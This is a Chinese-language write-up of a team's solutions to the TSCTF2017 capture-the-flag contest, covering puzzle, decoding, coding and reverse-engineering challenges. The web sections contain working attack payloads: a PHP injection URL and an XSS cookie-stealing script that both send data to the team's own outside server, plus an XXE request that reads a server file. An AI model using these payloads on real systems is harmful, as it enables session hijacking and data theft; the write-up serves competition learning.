# TSCTF2017线上初赛WriteUp

本着互动娱乐的精神，我们三个人组成了【新建文件夹】队参加了这次TSCTF2017的比赛。比赛题目采用浮动分数值，题目起始分1000，解出的人数越多，题目的分值越低。比赛时长36小时，截止到比赛结束总共放出了30题，我们队解出了其中17题。

下面说一下我们解出题目的解题思路。题目不是按照难度排列的。

## 【MISC】签到

签到题，关注公众号，给公众号发送消息就可以拿到flag。


## 【MISC】logo

图片本身是这次比赛主办方战队的logo。似乎有点图片幻想症，起初拿到这张图片后，习惯性的看了一下各种地方，一直没发现什么问题。最后扫了一眼图片二进制，原来flag根本就没藏在图片里。。。直接在图片最后找到了用Base64编码的flag，解码就好了。


## 【MISC】zipcrc

看到题目大概就能想到大体的思路。先打开压缩包看了一下，发现里面有三个文件，crypto、key1、key2和key3。




其中，key1、key2和key3都是4字节大小，考虑可以使用CRC碰撞，碰撞出文件的内容。碰撞脚本使用了github上一个开源的项目[https://github.com/kmyk/zip-crc-cracker](https://github.com/kmyk/zip-crc-cracker)。



拿到三个文件后，之后的思路陷入了一个误区，被卡住了。首先尝试了一下key1+key2+key3的组合作为压缩包的密码，无果后以为需要通过明文攻击解压缩包的密码key。于是寻找这方面的资料，找到 `pkcrack`，但是这种攻击方式至少需要**连续**12个字节的**单文件**，显然这样无法解决问题。到这里解题处于停滞状态，只好求助于客服。在说明了我们解出了key1、key2、key3文件的内容后，客服给出的回复是，你们已经解出来了。

放弃了pkcrack的方向，我们转向了key的组合，发现key3+key2+key1才是正确的压缩包密码。赶紧打开crypto文件看了一下，很容易发现是Base64编码。


解密后是一段Python代码

```python
# -*- coding: utf-8 -*-
import random, base64
from hashlib import sha1

key = 'TSCTF2017'

ctMessage = 'k6QqE3TU2qfqytHIatHD6DUOT+7D6vPXFUofQyF7dXjPhkPX9OnN/W5OxkvMfa0='

def crypt(data, key):
    x = 0
    flow = range(256)
    for i in range(256):
        x = (x + flow[i] + ord(key[i % len(key)])) % 256
        flow[i], flow[x] = flow[x], flow[i]
    x = y = 0
    out = []
    for char in data:
        x = (x + 1) % 256
        y = (y + flow[x]) % 256
        flow[x], flow[y] = flow[y], flow[x]
        out.append(chr(ord(char) ^ flow[(flow[x] + flow[y]) % 256]))

    return ''.join(out)

def tsencode(data, key=key, encode=base64.b64encode, salt_length=16):
    salt = ''
    for n in range(salt_length):
        salt += chr(random.randrange(256))
    data = salt + crypt(data, sha1(key + salt).digest())
    if encode:
        data = encode(data)
    return data

```

照葫芦画瓢，写了一段解密代码，成功解出了flag。

```python
def tsdecode(data, key=key, decode=base64.b64decode, salt_length=16):
    if decode:
        data = decode(data)
    salt = data[0:salt_length]
    data = data[salt_length:]
    return crypt(data, sha1(key + salt).digest())

print tsdecode(ctMessage, key)
```



## 【MISC】至尊宝

这又是一张图片题。“我的意中人是一位盖世英雄,有一天他会身披金甲圣衣、驾着七彩祥云来娶我。哎，至尊宝，你的头箍呢？”看到题目描述一般的思路是想办法将“头箍”找到。


可惜这个思路先被文件末尾的`rar`打断了，整个图片文件存在两个文件头，一个bmp文件头，一个rar文件头。我们把rar文件提取出来，却发现压缩包被加密了，无法打开。就这样被卡在这里了。

后来听说有人把头箍找到了，感觉这道题又有了思路。通过查找bmp文件格式，找到了可以修改图片高度的地方，试过几次后把高度改到了最大的高度。得到了一张不明所以的图片。


题目已经放出了一个提示“MD5”，猜测上面的颜色是否跟md5有关。将颜色转码

```
#437b93
#0db84b
#8079c2
#dd804a
#71936b
#5f3ab9
#78c64a
#766522
#24e2e2
#31e05f
#ca3571
#f262d7
#96bed1
#ab30e8
#a2d5a8
#ddee6f
```

每32位一组，正好分成三组，组成MD5后放到网站上解码，得到了 `something` `atthe` `bottom` 的提示？！！，bottom不就是那个rar文件？这又陷入了一次僵局，最后死马当活马医。组合起来当成密码，成功解密了rar压缩包。

之后的道路比较顺利，压缩包里有个pptx文件，改成zip文件解压，然后挨个文件翻阅，最后找到了flag。

## 【MISC】easyCrypto

这道题是一个解码题，阅读代码，然后写出解码代码。解码代码在decode里。

```python
import struct
import base64

cypher_text = 'DgYiZFttExBafXJPPn8BNhI9cwEhaUMgPmg+IA=='

flag = 'xxxxxxxxxxxxxxxxxxx'
iv = struct.unpack("I", 'x1a0')[0]
print 'iv is ', hex(iv)

def crypto(data):
    return data ^ data >> 16

def encode(datas, iv):
    cypher = []
    datas_length = len(datas)
    cypher += [crypto(datas[0] ^ iv)]

    for i in range(1, datas_length):
        cypher += [crypto(cypher[i-1] ^ datas[i])]

    cyphertext = ''
    for c in cypher:
        cyphertext += struct.pack("I", c)

    return base64.b64encode(cyphertext)

padding = 4 - len(flag) % 4
if padding != 0:
    flag = flag + "\x00" * padding

datas = struct.unpack("I" * (len(flag) / 4), flag)
print encode(datas, iv)

def decode(cypher_text,iv):
    cypher_text = base64.b64decode(cypher_text)
    padding = 4 - len(cypher_text) % 4
    if padding != 0:
        cypher_text = cypher_text + "\x00" * padding

    l = cypher_text
    crypher = struct.unpack("I"*(len(l)/4),l)
    datas = []
    datas += [ decrypto(crypher[0]) ^ iv ]
    for i in range(1,len(crypher)):
        datas += [decrypto(crypher[i]) ^ crypher[i-1]]
    return datas

def decrypto(data):
    return data ^ (data >> 16)

datas = decode(cypher_text,iv)
res = ""
for i in datas:
    res += struct.pack("I",i)
print res
```

## 【MISC】神秘的文件

这个题给了一个pcapng文件，用软件打开后开始分析。大概是一个ftp传输过程，由于传输协议未使用加密，泄露了传输文件的内容。传输的文件有两个，一个flag.zip还有一个txt文件。


看到txt文件内容后，写了个程序猜测一下明文是什么。

```python
import hashlib
def getmd5(s):
    m = hashlib.md5()
    m.update(s)
    return m.hexdigest()
MD5_pass = '24885fdab795c41166d6f0067782dc9f'
or_pass = ['a', 'h', 'k', 'q', 'y', '$', '%']
arr_pass = ['a', 'h', 'k', 'q', 'y', '$', '%']
def run():
    while(len(arr_pass)>0):
        cur = arr_pass.pop(0)
        if(getmd5(cur)==MD5_pass):
            print cur
            return
        else:
            for i in or_pass:
                arr_pass.append(cur+i)
run()
```

解出密码为 ah%kyq$

有了密码，dump出flag.zip文件，用密码解压缩。



解压缩zip文件，拿到其中的文件，把其中的一段用Base64解码 `TSCTF{tsctf_revolution_2017_May}` 。

## 【MISC】四维码

四维码这个题目感觉还是很不错的，不过脑洞还是有点大，基本上就是一步步跟着HINT来的。

首先题目给了一个gif，其中每一帧有一个二维码，将每一帧扫到的字母拼接起来，得到一个网址 `https://twitter.com/pinkotsctf` 这是一个twitter账号，账号里只有一条消息，有一张图片。


拿到图片后扫了一下二维码，取到 `NNSXSPLROJRW6ZDF` ，意味不明。这时候有了个HINT，提示用Base32解码，得到`key=qrcode` 。还是意味不明。

我们发现了图像上半部分的白色存在不一致的问题，但是找不到什么规律。又分析了一下基本信息，基本上束手无措。此时放出来一个HINT，“谷歌搜图”。通过谷歌搜图，在github找到了一个开源库[fbngrm/Matroschka](https://github.com/fbngrm/Matroschka)。

肯定是用的这个，看这个库的解密命令 `python matroschka.py -open -m <mac-password> -k <password> <image>` ， **password** 是`qrcode`， **mac-password** 是个啥？最后试了试，貌似随便的字符串都可以，对图片没有影响。


解出来的图片不是很清晰，用ps稍微调整了一下，然后扫描一下拿到了一串数字 `000000000011010010000111101110101001110110010010011110110010111001010011000010011110100100110000101100100111011000010100101001100001101000111011000101110100001011001001110110010000100110101100100001111010010011000111010110000000000`。再次意味不明。。。

思考过程，ascii码二进制不可能，想到了0-1代表像素。写了个html枚举一下宽度，看看哪个图片最像？

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>Document</title>
    <style>
        #containter {
            position: relative;
        }

        .white {
            background: white;
        }

        .black {
            background: black;
        }
    </style>
</head>

<body>
    <div id="containter"></div>
    <script>
        var str = "000000000011010010000111101110101001110110010010011110110010111001010011000010011110100100110000101100100111011000010100101001100001101000111011000101110100001011001001110110010000100110101100100001111010010011000111010110000000000";
        var containter = document.getElementById('containter');
        var width = 5;
        // var linecount = 1;
        var topx = 0;
        var onecnt = 20;
        for (var linecount = 1; linecount < str.length; linecount++) {
            for (var i = 0; i < str.length; i++) {
                var ele = document.createElement("div");
                ele.style.position = "absolute";
                ele.style.width = width + 'px';
                ele.style.height = width + 'px';
                ele.style.left = ((i % linecount) * width) + 'px';
                ele.style.top = (topx + Math.floor(i / linecount) * width) + 'px';
                if (str[i] == '0') {
                    ele.className = "white";
                } else {
                    ele.className = "black";
                }
                containter.appendChild(ele);
            }
            if (linecount == str.length-1 && onecnt > 0) {
                linecount--;
                onecnt--;
                topx += width;
            } else {
                topx += (Math.floor(str.length / linecount) * width + 50);
            }
        }
    </script>
</body>

</html>
```

没有图片符合样子的，好奇怪。。。这道题卡了好久，抱着死马当活马医的心态加宽高度，作为条形码试试。。。


解决了这道题，太好了。

## 【WEB】Web

上来网页给了一个提示


访问 **re.php** ，网页给出了该页的php代码。


计大意是在 tmp 目录下生成一个随机字符的 php 名，写入了$shell=’’;的句子，然后输入的 shell 参数加入到单引号内，根据提示是要查看 flag.php。关键点是绕过 addslashes 这个函数。

网上查看了一番，可以用宽字符或双斜线匹配来绕过。但是不知道为什么php的网页回显被关闭了（后来才知道，$shell是要执行的shell命令，不是php命令），于是考虑用发送网络请求获取flag.php的信息。

构造的参数如下：

```
http://10.105.42.5:44445/re.php?shell=../flag.phphttp://10.109.33.193/index.php?s=cdef%5c%27;print%20file_get_contents(substr($shell,11,37).urlencode(file_get_contents(substr($shell,0,11))));//
```

在本地http://10.109.33.193搭建一个服务器，来接收php发送的请求。

最后获得的flag如下：

```php
<?php
if($_SERVER['REMOTE_ADDR']!=="127.0.0.1" && $_SERVER['REMOTE_ADDR']!=="::1")
    die("Yeah, flag is here. But flag is so secret that only local users could access it.");
?>
<html>
<head>
<meta charset="utf-8" />
<title>Flag</title>
</head>
<body>
<b>Congratulations!</b><br><br>
You got the flag. Interesting regex, right?.<br><br>
TSCTF{h4pp9_enj0y_re93x_T0_3x3c__!!!}
</body>
</html>
```

## 【WEB】Simple Shop1

首先查看网站首页，似乎没什么。


注册了一个账号登陆进去看看。




发现一个像是购物似的列表。有flag呀，但是买不到，因为没有钱。


查看网页源代码，发现表单里有一个奇怪的字段 `sid`，推测可能购买的时候会以这个识别购买的用户，但是谁有钱呢？



网站还有一个ChatRoom 功能，查看一下，貌似TOM童鞋非常有钱。。。下面的目标就是获取TOM童鞋的sid。



整个网站没有查看用户名的地方，所以考虑使用reset功能，看看能不能reset一下密码


没有成功reset密码，但是请求里返回了一个sid，可能是TOM童鞋的



用这个sid替换一下表单中的sid，成功买到flag



## 【WEB】Simple Shop2

按照 **Simple Shop1** 的方法进入，购买列表里有个 **talk to manager** ，界面是这个样子。



一时也没有什么切入点，就查看了一下源代码。



里面 `get_md5.js` 代码是


根据以往的经验判断，以为是要尽快算出md5的值，才有资格与管理员通信，于是写了个小程序想爆破一下。结果这个思路是错的，这里md5的作用仅仅是浪费时间，起到一个手动验证码的作用。

后来，有个HINT提示，后台管理员会不停查看这些浏览信息，原来是考查xss相关的知识呀。

测试了好多，发现会后台会过滤 `script` 、 `英文句号.` 、 `斜杠/` 等字符，考虑使用img的onerror构造一个。

主要功能是通过一个script标签访问一个内网地址，网址的参数带上cookie，通过get方式将cookie提交到远程服务器。

```
"<script src='http://10.109.33.193/index.php?s="+document.cookie+"'></script>"
```

将这段代码HTML encode躲避字符检查，与img的onerror结合起来，通过document.write写入dom中。

```html

```

将上面的信息作为消息提交，不一会儿就看到返回的消息，里面带有PHPSession内容。`PHPSESSID=fhrlr9dltmis8f00fa1taqmfi`，用这段cookie替换本地的cookie，成功拿到管理员权限进入后台。


这里还是没有flag，查看网页源代码发现一个注释，`/aaasssddd/flag` 里面可能存放着flag。



不管怎样先写点儿心路历程吧，请求里发送了一些内容。


之前发送的请求都是json格式，这个请求居然是xml格式的，稍微学习了一下，**XXE** 攻击中，可以构建实体来获取指定文件的内容，好在这里没有多少阻碍，构造一个请求

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///aaasssddd/flag" >]>
<note><title>title</title><content>&xxe;</content></note>
```

用postman发送到后台地址，成功拿到flag文件的内容


Simple Shop虽然麻烦点，但是整个思路感觉还是很不错的。解出这两道题，很大程度上弥补了我们队在PWN上的不足。

## 【Coding】小明的二进制

> 小明发现，有些整数，它们十进制表示的时候，数的每一位只能是0或者1。例如0，1，110，11001都是这样的数，而2，13，900不是，因为这些数的某些位还包含0、1以外的数。小明将这些各位只为1或者0的数，命名为“小明二进制”。 现每轮给出一个整数n，计算一下最少要用多少个“小明二进制”数相加才能得到n，总共50轮。 如13可以表示为13个1相加，也可以13=10+1+1+1，或者13=11+1+1，所以13最少需要3个“小明二进制”数相加才能得到。

开始用了个贪心，找出所有的“小明二进制”数，然后挨个最大的一直减，但是这样做不对。因为我们可以使用任意的组合，按位来看，我们可以将每一位的和拆分到不同的数字上，这样其实就变成了按位找最大的数。

```java
package com.sumygg.tsctf2017.xiaoming;

import java.util.*;

/**
 * Created by Sumy on 2017/5/6.
 */
public class Work {

    public int getXiaomingStep2(long num) {
        long ans = 0;
        while (num > 0) {
            long x = num % 10;
            ans = Math.max(ans, x);
            num /= 10;
        }
        return (int) ans;
    }

    public static void main(String[] args) {
        Work work = new Work();
        work.generateXiaomingNum();
        try {
            Socket socket = new Socket("10.105.42.5", 41111);
            InputStream input = socket.getInputStream();
            OutputStream output = socket.getOutputStream();
            Scanner scanner = new Scanner(input);
            PrintWriter printWriter = new PrintWriter(output);
            while (scanner.hasNext()) {
                String line = scanner.nextLine();
                System.out.println(line);
                if (line.startsWith("-----")) {
                    System.out.println(scanner.nextLine());
                    line = scanner.nextLine();
                    System.out.println(line);
                    long num = Long.parseLong(line);
                    int ans = work.getXiaomingStep2(num);
                    System.out.println(scanner.nextLine());
                    System.out.println("MyAns: " + ans);
                    printWriter.println(ans);
                    printWriter.flush();
                }
            }
            socket.close();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

## 【Coding】泽哥的算术

> 泽哥的数学不是很好，有一天老师给泽哥布置了五十道数学题，要求他在10s内给出A的B次幂的后四位，你能算的出来吗？example input : 123 234 output : 6809

只要求最后4位，所以只拿最后5位运算即可，不用整个进行运算。乘法的时候使用快速幂运算。

```java
package com.sumygg.tsctf2017.zege;

import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.io.PrintWriter;
import java.net.Socket;
import java.util.Scanner;

/**
 * Created by Sumy on 2017/5/6.
 */
public class Work {
    public long work(long a, long b) {
        long ans = 1;
        long tmp = a;
        while (b > 0) {
            if ((b & 1) == 1) {
                ans *= tmp;
                ans %= 100000;
            }
            b >>= 1;
            tmp *= tmp;
            tmp %= 100000;
        }
        return ans % 10000;
    }

    public static void main(String[] args) {
        Work work = new Work();
        System.out.println(work.work(123, 234));
        try {
            Socket socket = new Socket("10.105.42.5", 42222);
            InputStream input = socket.getInputStream();
            OutputStream output = socket.getOutputStream();
            Scanner scanner = new Scanner(input);
            PrintWriter printWriter = new PrintWriter(output);
            while (scanner.hasNext()) {
                String line = scanner.nextLine();
                System.out.println(line);
                if (line.startsWith("-----")) {
                    System.out.println(scanner.nextLine());
                    line = scanner.nextLine();
                    System.out.println(line);
                    String[] inputnum = line.split(" ");
                    long a = Long.parseLong(inputnum[0]);
                    long b = Long.parseLong(inputnum[1]);
                    long ans = work.work(a, b);
                    System.out.println(scanner.nextLine());
                    System.out.println(a + "^" + b + "-->" + ans);
                    printWriter.println(ans);
                    printWriter.flush();
                }
            }
            socket.close();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

## 【Coding】Las Vegas

> 在Las Vegas，霸哥想跟我们玩个简单的取石子游戏，规则如下：游戏给出数字A B,双方轮流从A个石子中取走石子，每次不能超过B个，谁能取走最后一个石子谁就算赢。双方需要完成50轮游戏。

博弈问题，给出的数据总是存在先手必胜的策略，每次取走模(B+1)个即可。

```java
package com.sumygg.tsctf2017.las_vegas;

import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.io.PrintWriter;
import java.net.Socket;
import java.util.Scanner;

/**
 * Created by Sumy on 2017/5/6.
 */
public class Work {

    public static void main(String[] args) {
        Work work = new Work();
        try {
            Socket socket = new Socket("10.105.42.5", 43333);
            InputStream input = socket.getInputStream();
            OutputStream output = socket.getOutputStream();
            Scanner scanner = new Scanner(input);
            PrintWriter printWriter = new PrintWriter(output);
            while (scanner.hasNext()) {
                String line = scanner.nextLine();
                System.out.println(line);
                if (line.startsWith("-----")) {
                    line = scanner.nextLine();
                    System.out.println(line);
                    String[] inputnum = line.split(" ");
                    long a = Long.parseLong(inputnum[0]);
                    long b = Long.parseLong(inputnum[1]);
                    long choice = a % (b + 1);
                    System.out.println("choice=" + choice);
                    System.out.println(scanner.nextLine());
//                    System.out.println(a + "^" + b + "-->" + ans);
                    printWriter.println(choice);
                    printWriter.flush();
                    while (true) {
                        line = scanner.nextLine();
                        System.out.println(line);
                        if (line.startsWith("Okay") || line.startsWith("You")) {
                            break;
                        }
                        a = Long.parseLong(line.split(" ")[1]);
                        choice = a % (b + 1);
                        System.out.println(scanner.nextLine());
                        System.out.println("choice=" + choice);
                        printWriter.println(choice);
                        printWriter.flush();
                    }
                }
            }
            socket.close();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

## 【Coding】修路

> 市政府决定在1000个村子(1,2,3,4....1000)间修些路来方便大家出行，市长决定在录用你之前进行一次考察，题目给出800条连通道路信息，再做1000次询问，要求给出村子A与B之间是否连通，是回答"yes"，否回答"no"。

连通图问题，使用Floyd算法即可。时间复杂的O(n^3)

```java
package com.sumygg.tsctf2017.fix_road;

import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.io.PrintWriter;
import java.net.Socket;
import java.util.Scanner;

/**
 * Created by Sumy on 2017/5/7.
 */
public class Solution {
    private final static int VE_NUM = 1005;

    private boolean[][] connected;

    public Solution() {
        connected = new boolean[VE_NUM][VE_NUM];
        for (int i = 0; i < VE_NUM; i++) {
            connected[i][i] = true;
        }
    }

    public void addRoad(int a, int b) {
        connected[a][b] = true;
        connected[b][a] = true;
    }

    public void connectRoad() {
        for (int k = 0; k < VE_NUM; k++) {
            for (int i = 0; i < VE_NUM; i++) {
                for (int j = 0; j < VE_NUM; j++) {
                    if (connected[i][k] && connected[k][j]) {
                        connected[i][j] = true;
                    }
                }
            }
        }
    }

    public boolean isConnected(int a, int b) {
        return connected[a][b];
    }

    public static void main(String[] args) {
        Solution solution = new Solution();
        try {
            Socket socket = new Socket("10.105.42.5", 44444);
            InputStream input = socket.getInputStream();
            OutputStream output = socket.getOutputStream();
            Scanner scanner = new Scanner(input);
            PrintWriter printWriter = new PrintWriter(output);
            boolean readroad = false;
            while (scanner.hasNext()) {
                String line = scanner.nextLine();
                System.out.println(line);
                if (line.contains("press enter to continue")) {
                    printWriter.println();
                    printWriter.flush();
                    System.out.println("[ENTER]");
                    readroad = true;
                } else if (readroad && !line.startsWith("We")) {
                    String[] in = line.split(" ");
                    solution.addRoad(Integer.parseInt(in[0]), Integer.parseInt(in[1]));
                } else if (readroad && line.startsWith("We")) {
                    solution.connectRoad();
                    readroad = false;
                } else if (line.startsWith("----")) {
                    line = scanner.nextLine();
                    System.out.println(line);
                    String[] in = line.split(" ");
                    System.out.println(scanner.nextLine());
                    boolean ans = solution.isConnected(Integer.parseInt(in[0]), Integer.parseInt(in[1]));
                    printWriter.println(ans ? "yes" : "no");
                    printWriter.flush();
                    System.out.println("Ans--" + ans);
                }
            }
            socket.close();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

## 【REVERSE&APK】checkin

逆向题，判断输入是否符合期望。主要有两个校验的地方。

第一个校验位数：


判断输入是否为32位长度。

第二个是校验输入和期望值：


flag在程序中不是明文存放的，在之前将密文flag运算得到明文flag，与输入进行比对。所以可以从该位置dump出内存中的flag为 `TSCTF{0ops_Rev@zse_ls_sO_e4sY?!}` 。

## 【REVERSE&APK】take it easy

相比上一题，这一题是将输入运算到一个中间值与存储的值进行比对，内存中不再出现明文flag。

主要有四个子过程：


第一还是检验输入长度是否为29位。


第二将每位的高6位与低2位互换。


第三将互换的结果与一个数组的数字取异或。



最后与另一个数组进行比对。

根据以上的思路，可以写一个解密的程序：

```java
package com.sumygg.tsctf2017.take_it_easy;

/**
 * Created by Sumy on 2017/5/6.
 */
public class Solution {
    private int[] ansbase = {0x53, 0x96, 0xdb, 0x1d, 0xaa, 0xd6,
            0xd4, 0x48, 0xb8, 0x15, 0xfe, 0x85,
            0x78, 0x89, 0x65, 0xd2, 0xb6, 0x12,
            0xfb, 0x09, 0x50, 0xb7, 0x50, 0x84,
            0x5d, 0x39, 0x82, 0x99, 0x57};
    private int[] xorbase = {0x46, 0x42, 0x0b, 0x08, 0x3b, 0x08,
            0x40, 0x11, 0x25, 0x4c, 0x62, 0x59,
            0x21, 0x5e, 0x29, 0x0e, 0x61, 0x48,
            0x60, 0x14, 0x09, 0x2b, 0x09, 0x58,
            0x40, 0x63, 0x19, 0x40, 0x08};

    private void work() {
        for (int i = 0; i < ansbase.length; i++) {
            int tmp = ansbase[i] ^ xorbase[i];
            char ch = (char) ((((tmp & ((1 << 7) - 1)) << 2) | (tmp >> 6))&0xff);
            System.out.print(ch);
        }
        System.out.println();
    }

    public static void main(String[] args) {
        Solution solution = new Solution();
        solution.work();
    }
}
```

## 【REVERSE&APK】baby_android

把APK包丢到Bytecodeviewer里看了一下，一个简单的Android逆向题，验证逻辑都写在com.tsctf2017.myapplication.MainActivity.check();函数里。
Check的反编译代码如下：

```java
public boolean check(String var1) {
    if(var1.startsWith("TSCTF{") && var1.endsWith("}")) {
        String var2 = var1.substring(6, -1 + var1.length());
        if(var2.length() == 32 && Pattern.compile("[0-9a-f]+").matcher(var2).matches()) {
        byte[] var3 = var2.getBytes();
        int var4 = 0;

        String var5;
        for(var5 = ""; var4 < var3.length; ++var4) {
            byte var6 = var3[var4];
            if(var6 <= 102 && var6 >= 97) {
                var5 = var5 + (10 + (var6 - 97));
            } else {
                var5 = var5 + (var6 - 48);
            }
        }

        if(var5.equals("1192811610815159146852912439081023130161513")) {
            return true;
        }
        }
    }

    return false;
}
```

